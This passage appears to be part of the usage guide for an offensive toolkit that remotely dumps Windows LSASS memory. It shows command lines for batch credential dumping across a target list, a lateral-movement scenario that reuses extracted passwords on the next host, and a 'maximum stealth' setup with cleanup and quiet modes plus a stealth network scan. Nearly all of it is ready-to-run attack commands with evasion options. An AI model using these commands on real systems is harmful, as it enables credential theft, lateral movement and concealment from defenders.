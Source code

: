 # Execute batch remote dumps
while read target; do
    echo "Processing $target..."
    ./lsass_remote_dumper.sh -r -t "$target" -u admin -p "CommonPass123" \
      -x wmi -m comsvcs -s -c -q -f "campaign_${target//\./_}"
    sleep 30  # Delay between targets
done < campaign_targets.txt


Scenario 3: Lateral Movement Simulation

Bash


# Start with initial foothold
./lsass_remote_dumper.sh -r -t 192.168.1.100 -u user -p "password" \
  -x winrm -m powershell -l

# Extract credentials from dump (manual analysis)
# Use extracted credentials for next hop

# Add discovered credentials
./lsass_credential_manager.sh add -t 192.168.1.101 -u admin -P "ExtractedPass"

# Continue lateral movement
./lsass_remote_dumper.sh -r -t 192.168.1.101 -u admin -p "ExtractedPass" \
  -x wmi -m all -s -c


Scenario 4: High-Security Environment

Bash


# Maximum stealth configuration
export STEALTH_MODE=true
export CLEANUP_MODE=true
export QUIET_MODE=true

# Stealth network discovery
./lsass_network_scanner.sh -t 192.168.1.0/24 -s stealth --timeout 10

# Encrypted credential storage
./lsass_credential_manager.sh add -t target -u admin -P "password" -e
